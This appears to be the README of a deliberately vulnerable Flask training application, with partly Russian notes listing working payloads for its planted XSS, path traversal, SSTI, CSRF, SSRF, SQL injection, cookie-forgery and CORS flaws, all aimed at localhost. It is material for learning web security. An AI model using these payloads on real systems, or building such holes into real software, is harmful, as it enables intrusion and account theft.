 # Description:
FVA Flask Vulnerable Application was developed for the purpose of learning. 

# TODO:
* сделать заглушки в случае невалидных логина или пароля или необходиомсти аутентификации
* csrf добавить подключение к БД psql
* перенести в env основные конфигурационные настройки

# Vulnerabilities 
### XSS + Iframe injection

```html
http://localhost:8888/xss?param=<script>alert(1)</script>

<img src=https://stackoverflow.com/ onerror=alert(1)>

<script>alert(document.domain)</script>

<a href="javascript:alert(document.domain);">click here</a>

<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>

<iframe src="http://httpforever.com/></iframe>

<form name="login" action="http://ip: port/">
 	<label for="login">login: </label>
 	<input type="text" name="login" required>
 	<br>
 	<label for="password">password: </label>
 	<input type="password" name="password" required>
 	<br>
 	<input type="submit" value="Login!">
 </form>

<script>
window.addEventListener('load', function() {
    var sw = "/sw.js";
    navigator.serviceWorker.register(sw, {scope: '/'})
       .then(function(registration) {
            console.log('Service Worker registered successfully');
        })
       .catch(function(err) {
            console.error('Service Worker registration failed:', err);
        });
});
</script>
```

# PATH TRAVERSAL
открыть код и найти каким образом идет обращение к картинке
'view-source:http://localhost:8888/path_travers'
'<img src="/path_travers_img/?img=/static/scripting.png" alt="what_is_that" width="100" height="100"></p>'

exploit
```URL
http://localhost:8888/path-travers-img/?img=/static/scripting.png
http://localhost:8888/path_travers_img/?img=/README.md
http://localhost:8888/path_travers_img/?img=/../venv.txt
```

# SSTI 
exploit
```URL
http://localhost:8888/ssti?param={{(9*9)}}
http://localhost:8888/ssti?param={{%20config.items()%20}}
```

# XSS via Service worker
/upload

PoC upload sw.js
```js
setInterval(function() {
  console.log("U been h@cked");
}, 5000);
```

# CSRF
/csrf через другую вкладку
python3 -m http.server 9000
Фишинговая ссылка hacker_csrf.html
http://127.0.0.1:9000/Projects/FVA/hacker_csrf.html

/csrf через GET
http://localhost:8888/change_password?id=1&new_password=h@cked

# SSRF
GET request: 
http://localhost:8888/ssrf?url=http://localhost:8888/xss

POST request: 
curl -X POST -d "url=http://localhost:8888/xss" http://localhost:8888/ssrf


# SQl injection
brew services start postgresql
psgl postgres
python init_db.py from modules.init_db import create_database
=# \dt
=# SELECT * FROM users;

injection 
login: ' OR 1=1; --
password: any

# command_injection
/go to command_injection
change cookie to admin > base64

# CORS test
python -m http.server 8000
devtools > console:
fetch('http://localhost:8888/api/users')
  .then(response => response.text())
  .then(data => console.log(data))
  .catch(error => console.error('Error:', error));

  
